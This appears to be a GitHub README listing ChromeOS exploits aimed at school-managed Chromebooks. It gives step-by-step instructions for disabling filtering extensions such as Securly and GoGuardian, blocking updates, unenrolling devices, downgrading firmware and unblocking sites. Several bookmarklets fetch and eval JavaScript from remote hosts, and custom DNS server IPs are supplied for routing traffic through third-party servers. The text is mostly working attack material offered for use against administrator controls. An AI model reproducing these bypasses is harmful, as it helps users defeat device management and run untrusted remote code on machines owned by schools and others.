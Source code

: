 # Exploits and Hacks
This is a curated list of exploits for ChromeOS. It started with LTBEEF, and now there is more!
Many of these exploits can destroy your computer if used improperly. So PLEASE PLEASE make sure you follow these instructions very carefully!
If you need help ask it <a href="https://github.com/neealdon4/Exploits-and-Hacks/discussions">here</a>

Please use these only when you have permission, I (Nee) do not condone the use of any exploits for illegal purposes!
  
**ATTENTION ALL SYS ADMINS!!!**

Hello, I am Nee and I created this repo in order to give exploits for the masses and to prove one thing, Chromebooks are literal trash, and a poor excuse for a computer. They are full of exploits, you might think you blocked/patched them all but then 3 more pop up. It is an endless game of whack-a-mole. Treat your students to a Windows computer, they will thank you. And don't you dare start to think "My school district does not have that kind of money", it most likely does! How much are you paying the blocker companies? Think about that.

<img width="250px" src="https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png">  
Image Credit: LittleMissNyan

<details>
<summary><b>LTMEAT</b> Disable extensions</summary>

**L**iterally **T**he **M**eatiest **E**xploit of **A**ll **T**ime

From [ltmeat.bypassi.com](https://ltmeat.bypassi.com), if you are interested in how this exploit works, check out that website.

1. Find a page belonging to the extension you want to disable. `chrome://extensions`, `chrome://extensions-internals`, and `chrome://process-internals` are all good places to find your extension's ID (a 32-character lowercase string). You can also just do a simple Google search. Once you have your ID, substitute it into the hostname in the URL below:

```
chrome-extension://extensionidhereblahblah/manifest.json
```

For some filters like Securly, the block screen is already an extension page. 

2. Bookmark the extension page (bookmark A) if you wish. Then, bookmark `chrome://kill` (B) and `chrome://hang` (C). 
3. While on the extension page (A), click the `chrome://kill` bookmark (B). The page should crash. You should already have the next step prepared. 
4. Instantly start spamming `chrome://hang` (bookmark C) and quickly reload the page while spamming (ideally with the refresh key on your keyboard or `ctrl`+`R`). You should have reloaded within one or two seconds of killing the page. 

If the extension page (bookmark A) no longer loads, then LTMEAT worked! You can close your tabs and the extension will basically be dead. If nothing loads, then you probably reloaded too late or spammed too slowly. This isn't rocket science! Restart your computer to revert back to normal. 

Exploit made by [Bypassi#7037](https://buymeacoffee.com/bypassi), [further reading](https://ltmeat.bypassi.com)

### "Help me! I'm an idiot!"

Turns out that I had far too much faith in society when making this page. Some of you skids out there are really, really stupid and also can't read. So here are the answers to some commonly asked questions. 

**How do I get an extension ID?**

Okay, fair. Extension IDs are leaked in a couple of places. Generally, the best way to get them is to go to extension settings and copy the URL query value.

**It says blocked by client?**

That's the message you get when you try to visit a page belonging to an extension that doesn't exist. The error message (`ERR_BLOCKED_BY_CLIENT`) is extremely misleading. Nobody blocked it--you just need to find the right extension ID (see above).

If you got this because you tried to visit the `extension_id_here_please` example URL, you should be extremely ashamed of yourself. Please change and grow as a person. 

**I don't have a bookmarks bar!!!!**

First, try running ctrl+shift+B. If that doesn't work, go to `chrome://settings` and turn on the "home button" feature, then set it to `chrome://hang`. A home icon should show up to the right of your refresh icon in the top left. Use that instead of bookmark C.

There is a version where you don't need bookmarklets, but I am currently gatekeeping it (L). Check this site daily to see if new alternate instructions have been posted. 

**I disabled an extension but now I can't load websites!**

If you actually just read the write-up, you'd know that this would happen if the extension's background page loaded and its listeners were already initialized before you used `chrome://hang`. You can double-check whether the extension is listening using `chrome://extensions-internals`, assuming you have a few brain cells in your head.

Anyway, no listeners mean you were too slow. Either you waited more than three seconds between bookmark B and reloading the page, or you weren't spamming bookmark C fast enough. The most reliable fix for this is to just restart your computer and try again. Try to match the pace of the gif below: (note the reload) 

![image](https://ltmeat.bypassi.com/img/abc.gif)

**The bookmarks don't do anything when I click them!**

Might be admin-blocked. Either be smart enough to figure out another way, or check this site daily to see if new alternate instructions have been posted.

**I disabled the extension, why is some stuff still blocked?**

I have bad news for you... not all filters are Chrome Extensions. And again, make sure the extension pages (like bookmark A) are frozen before you assume that your skiddy self successfully did the exploit. 

[Baby method for slow people](https://ltmeat.bypassi.com/alt/1.txt)

*Need more help? [Ask in the discussions](https://github.com/Nee/ext-remover/discussions)*

</details>

<details>
<summary><b>Baby LTMEAT</b> Disable extensions</summary>

**Patched On Chrome Versions 115 And Above**
  
BABY METHOD
FOR THE TECHNOLOGICALLY CHALLENGES.

1. Follow step one of the original instructions to find a page belonging to the Chrome extension you want to disable.

2. Visit that chrome-extension://blockeridhere page, then type chrome://hang in the URL bar of that tab. It should start loading infinitely.

3. Right-click the tab and duplicate it. Don't close anything.

4. Go to the chrome://extensions page for the blocker extension you want to Disable.

5. If that page has any sort of switch, such as "Allow access to file URLs", click that switch. If there are no clickable switches, cry in a corner or something.

The extension should now be broken, assuming you clicked the switch! Only one of the two duplicate tabs should be left standing. You can close your tabs now.

</details>

<details>
<summary><b>NEW LTMEAT</b> Disable extensions</summary>

  **If your Chromebook has received the 115 And Above patch on the stable channel Then Here's A New Method For LTMEAT**
  
  
**Unpatched on 115 and above**

**L**iterally **T**he **M**eatiest **E**xploit of **A**ll **T**ime
1. Create a bookmark folder and paste the extension page about 126 times.
2. Right click and open all in a new window now in that new window click open all 126 click it like 3-5 times.
3. Close the window with all those tabs.
4. Open the folder in a new window again, and Chrome should hang those tabs to take care of the old ones in the background that were just closed.
5. Go to chrome://extensions/?id=Your blocker id here flip the Allow access to file URLS button and then you've bypassed the patch and the exploit is working.
Close everything and make a new window you want to play games listen to music and yeah you're good to go. If it didn't work, try adjusting the number of tabs being opened. Bypassi should add this to his website as Alternate Method # 2. With this workaround, LTMEAT can endure a longer life!

</details>

<details>
<summary><b>JPCMG</b> LTBEEF with Service workers</summary>

**Requirements**
- Access to `chrome://serviceworker-internals`
- Inspect element

1. Go to `chrome://serviceworker-internals`
2. Find your extension, this won't work if there's not a plugin in there.
3. Hit the start button then the `inspect` button, and execute the basic LTBEEF code
```js
chrome.management.setEnabled('<plugin id here>',false)
```
4. Profit

![image](https://user-images.githubusercontent.com/58097612/234904781-4d5ad77e-6045-435e-8aae-df12dec53013.png)

Thanks to Nyaann#3881 for this exploit
</details>

<details>
<summary><b>Extension Launcher</b> Install extensions w/o allowlist</summary>
A bookmarklet capable of installing extensions, for those without an allowlist. 

Steps: 
Go to <a href="https://extension-installer.glitch.me/code.js">here</a> bookmark the code there (Might make a DNS)
go to chrome.google.com/webstorex and use the bookmarklet, then put the icon of the extension, the id, and the name of it (This does not matter, you can put anything), then
press download, and it will work.
**Extra Notes**
- Credit to "Aka, but nice" on Discord.
- DNS will be up soon for those who have JavaScript bookmarklets blocked.
- This will not work if you have a blocklist this is only for if when you go to the web store it shows blocked
</details>

<details>
<summary><b> Point-Blank</b> Execute scripts on extension pages</summary>

This exploit allows you to execute scripts on extensions pages, this is a great example of how Chromebooks are a piece of garbage.

<i>Getting started</i>
(Note: if bookmarklets are blocked you're screwed.)
1. Go to <a href="https://spot-maze-chinchilla.glitch.me/ingot.js">here</a> ([if blocked](https://raw.githubusercontent.com/Nee/ext-remover/main/newpointblank.js)) on your school chromebook.
2. Make a bookmark with the code there.
3. Once that is done,

 If you have Securly go to <a href="https://tinyurl.com/bettergoofcurly">here</a> if it says blocked by Chrome, reload (you have to actually have Securly ofc)
 
 If you have iBoss visit <a href="https://tinyurl.com/goofboss">here</a>.
For Cisco Umbrella, visit <a href="https://tinyurl.com/goofumbrella">here</a>.
 
 If you have Blocksi go to <a href="https://tinyurl.com/goofsi">here</a>.
 
 And if you have GoGuardian (might not work), go to <a href="https://tinyurl.com/goofguardian">here</a>. 
 
 Now most of these links are a block page(this is intentional) on each page should have a blue link, click the link on the page if it opens a blank page click the bookmarklet that you just made and click either hard disable or soft disable, you can also run some of the scripts and run your own code, your extension may disable javascript running on it, so running your own code may not work.
 
**Extra notes**
- I recommend doing soft disable, which only disables it until restart. 
- The launcher was made by me, but the idea was from <a href="https://bolg.glitch.me/_/point-blank/">Bypassi#7037</a>
- If your school updated GoGuardian, this exploit may not work.

</details>

<details>
<summary><b>UBoss</b> Tamper with IBoss</summary>

By the BlueHatCrew
https://dsc.gg/blue-hat-crew

This works only for iBoss, and Blocksi, If you don't have one of these, use New Point Blank.

1. Go to https://tinyurl.com/byeswamp if you have iBoss or https://tinyurl.com/blockboss if you have Blocksi.
Then bookmark the code below
```js
javascript:opener.eval(`fetch("https://rounded-boiling-flax.glitch.me/uboss.js").then(data=>{data.text().then(e=>{eval(e)})})`) && close();
```
2. Then go to the site with your blocker that was listed above.
3. Run the code. Follow the instructions there.

If it doesn't work let us know by creating a discussion, this was made in partnership with Aka, but nice#5094 and Bypassi#7037.

</details>

<details>
<summary><b>CAUB</b> Prevent Updates</summary>

This exploit keeps your Chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by Catakang#0987. Using onc files, you can convince your Chromebook that the wifi that you're connected to is pay-to-use (like a hotspot using data), and thus it will not check for updates.

![image](https://user-images.githubusercontent.com/58097612/212685932-ef9c802e-6040-42a3-be6e-10997162b7cd.png)

<i>Getting started</i>

1. Go to `chrome://network#state` (on your school-issued Chromebook of course; if this is blocked then ur kinda screwed lol).
2. Scroll to the bottom of the page; you should see a list of "favorite" wifi that you've connected to in the past.
3. Click the `+` sign next to the wifi name of each network that you commonly connect your Chromebook to.
4. The more wifis you expand, the better, but note that they have to come from the "favorites" section.
5. Use ctrl+a and ctrl+c to copy all the text on the entire network#state page.
6. Go to [caub.glitch.me](https://caub.glitch.me/).
7. Paste the copied text into the textbox below.
8. Press the `generate onc` button below the textbox.
9. Once you have downloaded the file, go to `chrome://network#general`.
10. Click on the `import ONC` button.
11. Import the newly-downloaded file.

**Extra notes**
- Your Chromebook will no longer automatically update. (as long as you are on a wifi that you used CAUB on)
- Be careful not to stay on wifi for too long without using CAUB on it, otherwise you might update.
- We cannot guarantee that this will work on every wifi

</details>

<details>
<summary><b>LTBEEF</b> Disable extensions</summary>

LTBEEF is an exploit, created by Bypassi#7037, which abuses API endpoints within the Google Chrome web store. The original site created for this exploit can be found at <a href="https://ltbeef.netlify.app/">ltbeef.netlify.app</a>

<b>Please Note:</b> This exploit only works on versions below 106, and earlier versions of 102
  
**Installation**  
There are several versions of this exploit you can use, here are the 2 most common versions:
- *Bookmarklets*  
    1. To use a GUI, bookmark one of the below scripts:  
    - Ingot  
    ```js
    javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
    ```
    - Compact Cow's UI  
    ```js
    javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
    ```  
    - Compact Cow's UI (Dark)
    ```js
    javascript:void fetch(`https://raw.githubusercontent.com/Nee/ext-remover/main/exploit.js`).then(d=>d.text()).then(eval);
    ```
    2. Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. 
    3. Flip the switches on the extensions you want to disable. Simple!  

    Photos of the GUI's:
    ![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)
    ![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)
   
- *DNS servers*  
    By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.  
      
    1. First, go to Settings > Network > Wifi > Network.
    2. Click on `Custom Name Servers`
    
    ![image](https://user-images.githubusercontent.com/88395302/212482302-82334f42-c421-45c2-b210-1e700652b5be.png)  
    
    3. Set every box there to the following ip:
    ```
    158.101.114.159
    ```
    (Hosted by The Greatest Giant#0110)  
    4. Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. 
    5. Flip the switches on the extentions you want to disable.
    6. Profit
    
</details>  

<details>
<summary><b>LTBEEF inspect</b> Using inspect to disable extensions</summary>

![image](https://user-images.githubusercontent.com/58097612/207386423-e6aa2095-d92d-44a8-a3d6-e42066bdf34e.png)

The screenshot below was preformed on `108.0.5359.75` (Official Build) (64-bit) on the stable channel. This has been tested and does work but has varying levels of success, you will need access to inspect element, more specifically, console.

1. Open this on your chromebook: 
```
chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/manifest.json
``` 
Shortened link: https://tinyurl.com/i-ltbeef
2. Open inspect and navigate to the console tab.
3. Run the basic LTBEEF code such as
```js
chrome.management.setEnabled('extensionid', false)
```
Replacing `extensionid` with the ID of the extension you want to disable, e.g. the stuff after the = in the URL bar when you click the extension's "details" button in chrome://extensions

Credit to SprinkzMC#8421 (aka Bypassi) for finding this!

![image](https://user-images.githubusercontent.com/58097612/207385046-5a9f6f07-6089-4775-9183-c11bd24ba02c.png)

To re-enable just go to the Chrome web listing for the extension and click on the banner.

</details>

<details>
<summary><b>Point Blank</b> Run code on system pages</summary>

Point Blank is an exploit that allows you to run bookmarklets on privilaged pages, sutch as the chrome extentions page. This exploit was also found by Bypassi, you can read more about how he discovered this exploit <a href="https://blog.bypassi.com/_/point-blank/"></a>

You can either use the prompt or the gui the prompt is below

1. Bookmark this code:

```js
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
```

And the gui is in launcher.js

2. Navigate to `chrome://extensions`.

3. Click on a extension that YOU installed from the Chrome Web Store > Details.

4. In the URL bar, copy the string of letters and numbers after the `/?id=`.

5. Click "View in Chrome Web Store" and spam the excape key. If it loads into chrome webstore try again, if it is a blank screen click the bookmarklet.

5. Paste the id of the extension into the prompt or input box seperated by commas.

If you close the tab, the exploit will stop working.

</details>

<details>
<summary><b>Blank3r</b> Reload extensions continuously</summary>

Point Blank is an exploit that allows you to run bookmarklets on privileged pages, such as the Chrome extensions page. This exploit was made with Point Blank as well.

The exploit code is below.
1. Bookmark this code:

```js
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
```

And the GUI is in launcher.js

2. Navigate to `chrome://extensions`.

3. Click on an extension that YOU installed from the Chrome Web Store > Details.

4. In the URL bar, copy the string of letters and numbers after the `/?id=`.

5. Click "View in Chrome Web Store" and spam the escape key. If it loads into Chrome Webstore try again, if it is a blank screen click the bookmarklet.

5. Paste the id of the extension into the prompt separated by commas.

If you close the tab, the exploit will stop working.

</details>

<details>
<summary><b>SH1mmer</b> Unenrollment</summary>  
SH1mmer is an exploit developed by the crew at Mercury Workshop. Credits can be found within the menu and on their site.  

Further information is now located at these links:

[Official Repository](https://github.com/CoolElectronics/sh1mmer)  
[Official Website (INSTRUCTIONS)](https://sh1mmer.me/)  
[Raw Shims Download](https://files.ultimatesrv.com/)  
[Wax4Web Shim Builder](https://build.ultimatesrv.com/)
</details>

<details>
<summary><b>Downgrading</b> Change versions</summary>  
Downgrading can be used for several exploits, to get to a version that does not have patches for certain exploits, such as LTBEEF. This is a built-in feature of ChromeOS.

![image](https://user-images.githubusercontent.com/58097612/212685863-3d6b8ce1-7caa-4735-95a8-8eb6787b227c.png)

<i>Requirements</i>
1. A USB thumb drive with at least 4GB of storage, some boards have small or bigger images, I recommend 16GB
2. A personal computer with access to downloading extensions
3. A brain
If you do not have these, you **CAN NOT** perform the exploit!

<i>Setup</i>
1. Navigate to `chrome://version` on the Chromebook you wish to downgrade and check for your board under `Platform` (ex I have a c3100 and its board is stable-channel octopus).

<img src="https://user-images.githubusercontent.com/88395302/212484378-65e6e6e3-b995-48a1-b229-3265a4993279.png">

2. Navigate to https://chrome100.dev/ , press `ctrl+f` and type in your board.
3. Find and download the Chrome version you want to your personal computer.

<i>Instlation</i>
1. Install Chromebook Recovery Utility onto your personal computer. (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">chrome.google.com/webstore/detail/Chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm</a>
2. Open the extension, click on the settings button in the top right-hand corner, and click "use local image".
3. Select the recovery image you downloaded from chrome100.
4. Plug in the USB you wish to use, and follow the prompts on the screen.
5. On your Chromebook, press esc+reload+power and follow the prompts.
6. On the checking for updates screen, press `ctrl`+`shift`+`e` to skip the "checking for updates" screen.
7. Profit.

</details>
  
<details>
<summary><b>Killcurly</b> Break extensions</summary>
Kill extension, by signing out.

1. Visit `chrome://settings/signOut`, the O in Out must be capitalized.
2. Press the big blue button
3. Go to `chrome://restart`
4. Now visit `tinyurl.com/AddSession` or [this link](https://accounts.google.com/signin/v2/identifier?hl=en&continue=https%3A%2F%2Fwww.google.com%2F&ec=GAlAmgQ&flowName=GlifWebSignIn&flowEntry=AddSession)
5. Add your **SCHOOL** account back. It WILL NOT WORK if you add a home account back. This is just so you can still access Google Drive, Youtube, and any Google service.
6. All extensions should stop working.
7. Note that you have to repeat this every time you restart or sign out.
8. If your Chrome version is `v112`, this exploit will no longer work, the bypass to this is listed further on. Visit`chrome://settings/resetProfileSettings` click current settings, and it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
And visit `chrome://restart`.
`
**This was discovered by Zoroark**

</details>
<details>
<summary><b>New Temporarily Unblock Anything</b> Temperarily Unblock Any Website</summary>

**Might Be Patched on 115 And Above**
  
  Step 1 go to the chrome-extension://Paste the blocker id here/manifest.json page.
Step 2 go to a new tab page and type in the URL Website you want to unblock don´t go into that website yet just leave it inside the URL Box.
Step 3 go back to chrome-extension://Paste the blocker id here/manifest.json now create a bookmark called E now click more and In the URL Box you put chrome://kill now save that bookmark.
Step 4 create another bookmark called D click more In the URL Box copy and paste  javascript:(function () {window.onbeforeunload = function() { return 1; };})()    Into that URL Box and save that bookmark.
Step 5 go back to chrome-extension://Paste the blocker id here/manifest.json page and now click bookmark B then quickly go back to the new tab page and click enter now quickly spam bookmark D like 2 or more times now there should be a pop up called do you want to close this page click cancel now boom that website is unblocked until you turn off your chromebook or until you exit out of that website then if that happen´s your gonna have to do all the steps again.

  Easier way for step 2: instead of putting the URL in the new tab box go to chrome-extension://Paste the blocker id here/manifest.json page then click Bookmark E then go to a random website then use the javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1)) Bookmarklet then spam Bookmark D two or more times then a pop up should appear quickly click cancel now boom all done.    Name of Bookmarklet > Unblock Website: javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1))

Note: Save chrome-extension://Paste the blocker id here/manifest.json as a bookmark so you don´t have to come back here and type in the URL thing.

IMPORTANT NOTE: if bookmarklets are blocked your screwed

</details>

<details>
<summary><b>Old Temporarily Unblock Anything</b> Temperarily Unblock Any Website</summary>
Step 1 make a bookmark called tab close blocker now click more on the bottom left corner now in that URL BOX put  javascript:(function () {window.onbeforeunload = function() { return 1; };})()
Step 2 go to a newtab page now go into the URL BOX on the top and put https://YOUR WEBSITE HERE do not click enter yet stay in that URL BOX.
Step 3 do search+esc now that should open task manager if search+esc doesn't work then click the three dots on the top right now scroll down until you find more tools click that and now find task manager click it now boom done with step 3.
Step 4 find your blocker extension and click it now on the bottom right you should see a button called End process click it now quickly click the URL BOX on the newtab page and click enter now quickly spam the bookmark tab close blocker now a pop up should come up it should have to buttons cancel and leave click cancel and boom done.

  IMPORTANT NOTE: if bookmarklets are blocked your screwed also if task manager or the End process button for task manager is blocked your double screwed.

  </details>

  <details>
  <summary><b>Incognito</b> Bypass Extensions</summary>
IP Servers: 
  Server 1. 52.207.185.90
  Server 2. 158.101.114.159
Step 1. Go to your settings
Step 2. Click on the wifi your using rn then click it again.
Step 3.  Scroll down until you see network once you see the option click it.
Step 4. Scroll down until you find custom name servers now once you find the option click it.
Step 5. Paste in the IP Server.
Step 6. Now there should be a notification saying open new tab click that and now you should be in a small window some instructions and there are 2 buttons click the yellow with black letters button and boom Incognito Mode is Unblocked.
One of the buttons are just a link in blue don´t click that one is just for test´s
Step 7. Go back to the network settings and change back the custom name servers to automatic name servers.
Note: If your connection is slow if your school has more than one wifi then connect to the other wifi that might have a better connection.

Btw if you close out of the Incognito Tab your gonna have to do all the steps again.

Cool Advanced Facts About Incognito Mode:
1. Bypass Extensions Aka Unblock All Websites.
2. Your History Is Hidden From Your School

</details>

<details>
<summary><b>Google System Method</b> Bypass Extensions</summary>
Unblocked Google
  
Step 1. Go to `chrome://chrome-signin`
Step 2. Click ok on the bottom right corner
Step 3. In the Email text box put `google@d11.org`
Step 4. Click `signin options`
Step 5. Now click signin with github
Step 6. Click the github cat icon
Step 7. In the search box on the top Right type google and then click see more topics then you will see all the google links click `www.google.com` now boom unblocked Google.

</details>

<details>
  <summary><b>Ingot</b></summary>

Disable Extensions


1. Show your bookmarks bar with `ctrl + shift + b`

2. Right click on the bar and choose `Add Page`

3. Set the name to `Ingot` and the URL to the code below or [here](https://github.com/FogNetwork/Ingot/blob/main/bookmarklet.js)

```js
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
```

  
</details>

boop
